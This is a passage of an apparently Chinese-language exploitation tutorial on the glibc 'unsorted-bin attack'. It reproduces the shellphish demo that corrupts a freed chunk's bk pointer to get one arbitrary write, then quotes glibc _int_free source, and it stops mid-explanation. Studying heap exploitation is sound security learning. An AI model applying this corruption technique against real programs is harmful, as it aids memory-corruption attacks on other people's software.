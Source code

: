 [TOC]

### unsorted-bin attack

&emsp;&emsp;<font size=2>好久没来写how2pwn了，这一次是因为论文要用到，所以必须得抓紧时间复习一下。顺便重拾一下以前拼命想学现在却有些反感的东西，多学点，万一以后真成大佬了呢？</font></br>

&emsp;&emsp;<font size=2>unsortedbin的原理其实非常简单，就是利用了unsortedbin脱钩的操作来达到一次任意地址写，但是也只能是一次，利用完成后unsortedbin list就废了，然后我们从shellphish的一个最简单的demo入手：</font></br>

```C
	unsigned long stack_var=0;

	unsigned long *p=malloc(400);
	malloc(500);

	free(p);
	p[1]=(unsigned long)(&stack_var-2);

	malloc(400);
```

&emsp;&emsp;<font size=2>我同样假设你已经看过我的malloc和free两部曲了，接下来会省略一些细节，首先我们来学习什么是unsortedbin，直接看`_int_free`内部：</font></br>

```C
#define unsorted_chunks(M)          (bin_at (M, 1))
#define bin_at(m, i) \
  (mbinptr) (((char *) &((m)->bins[((i) - 1) * 2]))                           \
             - offsetof (struct malloc_chunk, fd))

  if ((unsigned long)(size) <= (unsigned long)(get_max_fast ())
  {
    //...      
  }
  else if (!chunk_is_mmapped(p)) {
    if (! have_lock) {
      (void)mutex_lock(&av->mutex);
      locked = 1;
    }

    nextchunk = chunk_at_offset(p, size);
    
    //这里跳过安全检查
    //....
    
    nextsize = chunksize(nextchunk);

    if (nextchunk != av->top) {
      /* get and clear inuse bit */
      nextinuse = inuse_bit_at_offset(nextchunk, nextsize);

      /* consolidate forward */
      if (!nextinuse) {
        unlink(av, nextchunk, bck, fwd);
        size += nextsize;
      } else
        clear_inuse_bit_at_offset(nextchunk, 0);

      /*
        Place the chunk in unsorted chunk list. Chunks are
        not placed into regular bins until after they have
        been given one chance to be used in malloc.
      */

      bck = unsorted_chunks(av);
```